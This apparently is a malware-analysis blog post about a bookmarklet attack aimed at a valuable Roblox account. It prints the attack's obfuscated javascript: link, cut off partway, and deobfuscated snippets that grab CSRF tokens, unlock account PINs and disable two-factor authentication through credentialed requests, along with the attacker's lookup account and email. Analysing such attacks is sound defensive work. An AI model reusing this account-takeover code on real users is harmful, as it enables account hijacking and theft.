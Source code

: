 ```yaml
---
title: Bookmarklet XSS Attacks - Real Roblox Malware
date: 2024-06-09 05:08:01 +0800
categories: [Malware Analysis]
tags: [javascript,xss,analysis]     # TAG names should always be lowercase
pin: true
---
```


## The Target

Some of us are lucky when it comes to investing. My friend (known as Gary from here on out) is one of these, but not in a way you might expect. Gary started playing Roblox when he was young just as I and many other kids did.
However, Gary took a liking to collecting hats and clothing on the website. He spent whatever birthday money and allowances he got on viking hats and fire-themed balaclavas for his avatar.

This seemed like a bit of a waste of money - at the time. Fast forward to nearly 10 years later, and now his vast collection is worth several thousand REAL dollars. Unfortunately, this amount of wealth comes with 
a large target on his back. Hackers are constantly attempting to get access to his items, through scam websites and malicious emails.

## The Attack

Recently, Gary got a message asking if someone could make some fanart of his unique avatar. He said sure. The artist responded they would start soon, but need him to send over a special texture map of his avatar. 
As far as I am told, this isnt completely out of the ordinary. The texture map can help a lot with correctly modeling avatars in animations, for example.

But then the artist sent Gary a link to a website - which I will not include here for obvious reasons - containing a 'bookmarkable button' to quickly generate texture maps for his avatar. How convenient and not suspicious 
at all!

Gary immediately asked me to take a look and see if the website was malicious or not. So I did. And boy did I find some stuff.

The website was relatively barebones except for a giant link-button and 'walkthrough' video explaining how to properly use it. The first thing I did was inspect the website's source. I couldn't help but immediately
notice a hilariously suspicious anchor element:

```javascript
<a href="javascript:const%20_0x4cc798%3D_0x2001%3B%28function%28_0x5d8d84%2C_0x388ac2%29%7Bconst%20_0x108b54%3D_0x2001%2C_0x39dcc9%3D_0x5d8d84%28%29%3Bwhile%28%21%21%5B%5D%29%7Btry%7Bconst%20_0x1b78d8%3D-parseInt%28_0x108b54%280x185%29%29%2F0x1%2A%28parseInt%28_0x108b54%280xc3%29%29%2F0x2%29%2B-parseInt%28_0x108b54%280x183%29%29%2F0x3%2A%28parseInt%28_0x108b54%280x152%29%29%2F0x4%29%2B-parseInt%28_0x108b54%280x17c%29%29%2F0x5%2B-parseInt%28_0x108b54%280x162%29%29%2F0x6%2A%28-parseInt%28_0x108b54%280xc2%29%29%2F0x7%29%2BparseInt%28_0x108b54%280x144%29%29%2F0x8%2B-parseInt%28_0x108b54%280x111%29%29%2F0x9%2BparseInt%28_0x108b54%280x142%29%29%2F0xa%2A%28parseInt%28_0x108b54%280xca%29%29%2F0xb%29%3Bif%28_0x1b78d8%3D%3D%3D_0x388ac2%29break%3Belse%20_0x39dcc9%5B%27push%27%5D%28_0x39dcc9%5B%27shift%27%5D%28%29%29%3B%7Dcatch%28_0x5c0eac%29%7B_0x39dcc9%5B%27push%27%5D%28_0x39dcc9%5B%27shift%27%5D%28%29%29%3B%7D%7D%7D%28_0x219d%2C0x1dfe2%29%2Cwindow%5B_0x4cc798%280xe9%29%5D%3Ddocument%5B_0x4cc798%280x110%29%5D%28_0x4cc798%280x169%29%29%5B0x0%5D%5B%27getAttribute%27%5D%28_0x4cc798%280x11a%29%29%2Cwindow%5B_0x4cc798%280xbd%29%5D%3D%27%27%29%3Bfunction%20_0x2001%28_0x34f505%2C_0x56e9bf%29%7Bconst%20_0x219db2%3D_0x219d%28%29%3Breturn%20_0x2001%3Dfunction%28_0x20010f%2C_0x526ece%29%7B_0x20010f%3D_0x20010f-0xa3%3Blet%20_0x3a8f3e%3D_0x219db2%5B_0x20010f%5D%3Breturn%20_0x3a8f3e%3B%7D%2C_0x2001%28_0x34f505%2C_0x56e9bf%29%3B%7Dconst%20acceptableHeaders%3D%7B%27accept%27%3A%27application%2Fjson%2C%5Cx20text%2Fplain%2C%5Cx20%2A%2F%2A%27%2C%27accept-language%27%3A_0x4cc798%280x13e%29%2C%27sec-ch-ua%27%3A_0x4cc798%280x116%29%2C%27sec-ch-ua-mobile%27%3A%27%3F0%27%2C%27sec-ch-ua-platform%27%3A_0x4cc798%280xa6%29%2C%27sec-fetch-dest%27%3A_0x4cc798%280x14c%29%2C%27sec-fetch-mode%27%3A_0x4cc798%280xa4%29%2C%27sec-fetch-site%27%3A_0x4cc798%280xec%29%2C%27sec-gpc%27%3A%271%27%7D%2CyourSitesURL%3D_0x4cc798%280xae%29%2CgetCsrfToken%3Dasync%28%29%3D%3E%7Bconst%20_0x3d5a96%3D_0x4cc798%2C_0x313a18%3Dawait%20fetch%28%27https%3A%2F%2Fapis.roblox.com%2Fuser-settings-api%2Fv1%2Fuser-settings%3FwhoCanJoinMeInExperiences%3DFollowers%27%2C%7B%27credentials%27%3A%27include%27%2C%27headers%27%3AacceptableHeaders%2C%27method%27%3A%27POST%27%2C%27mode%27%3A_0x3d5a96%280xa4%29%7D%29%5B_0x3d5a96%280x12b%29%5D%28_0x498197%3D%3E%7B%7D%29%3Bif%28%21_0x313a18%29return%20await%20getCsrfToken%28%29%3Blet%20_0x11d173%3D_0x313a18%5B_0x3d5a96%280xf8%29%5D%5B_0x3d5a96%280x129%29%5D%28_0x3d5a96%280xd4%29%29%3Bif%28%21_0x11d173%29return%20await%20getCsrfToken%28%29%3Breturn%20_0x11d173%3B%7D%2CunlockAccountByPin%3Dasync%20_0x181c0c%3D%3E%7Bconst%20_0xe09cf9%3D_0x4cc798%3Bfetch%28%27https%3A%2F%2Fauth.roblox.com%2Fv1%2Faccount%2Fpin%2Funlock%3Fpin%3D%27%2B_0x181c0c%2C%7B%27headers%27%3A%7B%27accept%27%3A_0xe09cf9%280xa9%29%2C%27accept-language%27%3A_0xe09cf9%280x13e%29%2C%27content-type%27%3A%27application%2Fjson%3Bcharset%3DUTF-8%27%2C%27sec-ch-ua%27%3A_0xe09cf9%280x116%29%2C%27sec-ch-ua-mobile%27%3A%27%3F0%27%2C%27sec-ch-ua-platform%27%3A_0xe09cf9%280xa6%29%2C%27sec-fetch-dest%27%3A_0xe09cf9%280x14c%29%2C%27sec-fetch-mode%27%3A_0xe09cf9%280xa4%29%2C%27sec-fetch-site%27%3A_0xe09cf9%280xec%29%2C%27sec-gpc%27%3A%271%27%2C%27x-csrf-token%27%3Aawait%20getCsrfToken%28%29%7D%2C%27referrer%27%3A_0xe09cf9%280xa3%29%2C%27referrerPolicy%27%3A_0xe09cf9%280xc0%29%2C%27body%27%3A_0xe09cf9%280x160%29%2B_0x181c0c%2B%27%5Cx22%7D%27%2C%27method%27%3A_0xe09cf9%280x137%29%2C%27mode%27%3A_0xe09cf9%280xa4%29%2C%27credentials%27%3A_0xe09cf9%280x12f%29%7D%29%5B%27then%27%5D%28_0xbcaa97%3D%3E_0xbcaa97%5B_0xe09cf9%280x178%29%5D%28%29%29%5B_0xe09cf9%280x108%29%5D%28async%20_0x1cbef2%3D%3E%7Bconst%20_0x25f449%3D_0xe09cf9%3Bif%28_0x1cbef2%5B%27includes%27%5D%28_0x25f449%280x143%29%29%29document%5B_0x25f449%280x151%29%5D%28_0x25f449%280x156%29%29%5B_0x25f449%280xad%29%5D%28_0x25f449%280x172%29%2C_0x181c0c%29%2CsetDescription%28%7B%27pin%27%3A_0x181c0c%7D%29%2CcontinueToTwoStep%28%29%2Cconsole%5B_0x25f449%280x14e%29%5D%28_0x25f449%280xcf%29%29%2Cdocument%5B_0x25f449%280xc6%29%5D%28%27PIN%27%29%5B_0x25f449%280xc1%29%5D%5B_0x25f449%280x13f%29%5D%3D_0x25f449%280x139%29%3Belse%20_0x1cbef2%5B_0x25f449%280xb3%29%5D%28_0x25f449%280xff%29%29%3Fdocument%5B_0x25f449%280xc6%29%5D%28_0x25f449%280x102%29%29%5B_0x25f449%280x125%29%5D%3D_0x25f449%280x164%29%3Adocument%5B_0x25f449%280xc6%29%5D%28_0x25f449%280x102%29%29%5B%27innerHTML%27%5D%3D_0x25f449%280x146%29%3B%7D%29%3B%7D%2CcreateOTPsession%3Dasync%28%29%3D%3E%7Bconst%20_0x1f209f%3D_0x4cc798%2C_0x1c30af%3Dawait%20fetch%28_0x1f209f%280xc5%29%2C%7B%27credentials%27%3A_0x1f209f%280x12f%29%2C%27headers%27%3A%7B%27Accept%27%3A_0x1f209f%280xa9%29%2C%27Accept-Language%27%3A%27en-US%2Cen%3Bq%3D0.5%27%2C%27Content-Type%27%3A_0x1f209f%280x136%29%2C%27x-csrf-token%27%3Aawait%20getCsrfToken%28%29%2C%27Sec-GPC%27%3A%271%27%2C%27Sec-Fetch-Dest%27%3A_0x1f209f%280x14c%29%2C%27Sec-Fetch-Mode%27%3A_0x1f209f%280xa4%29%2C%27Sec-Fetch-Site%27%3A_0x1f209f%280xec%29%7D%2C%27referrer%27%3A%27https%3A%2F%2Fwww.roblox.com%2F%27%2C%27body%27%3A_0x1f20
```

Clearly this was some obfuscated JavaScript. Even taking a look at some of the strings was damning - `creteOTPsession`, `getCsrfToken`, etc. I immediately told Gary to stop talking to this guy and block him.

But I decided to go a bit deeper and started deobfuscating the JavaScript. Hilariously, the author actually just used [this](https://deobfuscate.io/) link, so the process was fairly trivial. However, local variable
names were obviously still random hex strings and unable to be recovered.

## The Payload

As expected, the payload JavaScript was a large amount of fetch requests to endpoints related to account settings and security:

```javascript
const disable2fa = async (_0x28bbe9, _0x197e35, _0x4fe56d) => {
  _0x197e35 = _0x197e35 || 0x0;
  _0x197e35++;
  if (_0x197e35 >= 0x3) {
    return;
  }
  let _0x42560a = await fetch("https://twostepverification.roblox.com/v1/users/" + _0x28bbe9 + "/configuration/authenticator/disable", {
    'headers': Object.assign(acceptableHeaders, {
      'x-csrf-token': window.csrf
    }),
    'referrer': "https://www.roblox.com/",
    'referrerPolicy': "strict-origin-when-cross-origin",
    'method': "POST",
    'mode': 'cors',
    'credentials': 'include'
  })['catch'](() => {});
  if (_0x42560a.status === 0x193) {
    _0x4fe56d = _0x42560a.headers.get("x-csrf-token");
    await disable2fa(_0x28bbe9, _0x197e35, _0x4fe56d);
  } else {
    return true;
  }
```

Perhaps the most interesting part of the entire payload was the very first fetch request made. Before accessing any user settings or inventory listings, the script makes a call to lookup details for a user with
ID 6055914656 - 'badmilky22':

```javascript
fetch("https://users.roblox.com/v1/users/6055914656", {
  'headers': {
    'accept': "application/json, text/plain, */*",
    'accept-language': "en-GB,en-US;q=0.9,en;q=0.8",
    'sec-ch-ua': "\"Chromium\";v=\"118\", \"Brave\";v=\"118\", \"Not=A?Brand\";v=\"99\"",
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': "\"Windows\"",
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': "cors",
    'sec-fetch-site': "same-site",
    'sec-gpc': '1'
  },
  'referrer': "https://www.roblox.com/",
  'referrerPolicy': "strict-origin-when-cross-origin",
  'method': 'GET',
  'mode': "cors",
  'credentials': 'include'
```

After the call, the payload then passes the user's bio/description into the `parseBinary` function:

```javascript
const evil_email = parseBinary(_0x5dd11c.description);
```

That's odd. Why would it do that? Well, I decided to look at badmilky22's account description. It was just a bunch of binary:

![badmilky22](/assets/img/badmilky22.png)

Decoding this to ASCII gives the hacker's email address `lr46opcs@fastsearcher.com`! Later on in the payload, this email address is used when victim account details are hijacked.

Afterwards, the payload does some pretty standard hacker stuff like resetting passwords and disabling 2FA. 

## But... what about CORS?

I couldn't understand how the payload managed to get around CORS. For those of you unaware, Cross Origin Resource Sharing (CORS) is a security setting for HTTP that can easily stop CSRF attacks like this. The
gist is that JavaScript from another 'Origin' (i.e. not roblox.com) should NOT be able to make credentialed requests or access HTTP responses from credentialed requests on behalf of a user. In this case, the
malicious 'link' (`<a/>` tag) element embedded with obfuscated JavaScript should NOT be able to successfully make these malicious requests on behalf of a user.

At first I was convinced that this guy just didn't know what he was doing, but then I realized that the malicious domain site had been registered only 5 days prior, and that clearly some thought was put into this
payload. So I decided to watch the 'walkthrough' video. The video instantly clarified everything for me - the bookmark the site wanted you to make was NOT to the malicious domain, but to literally drag and drop
the link-button onto your bookmarks bar.

This creates what modern browsers call Bookmarklets - or 'bookmarks' that are actually just JavaScript code. This is incredibly valuable in a cross-site scripting attack as it can easily bypass any CORS restrictions.
As far as I am aware, this isn't a very widely used or discussed attack vector. The implications of 'stored-xss' on any origin site are massive. 

## Conclusion

It seems that this is simply an accepted facet of modern browsers. I personally have never heard of someone using bookmarklets for a legitimate purpose, and the attack implications are critical. I would seriously 
recommend Mozilla and Chrome consider disabling telemetry for JavaScript-enabled bookmarklets, or including a custom origin/header for bookmarklet requests.


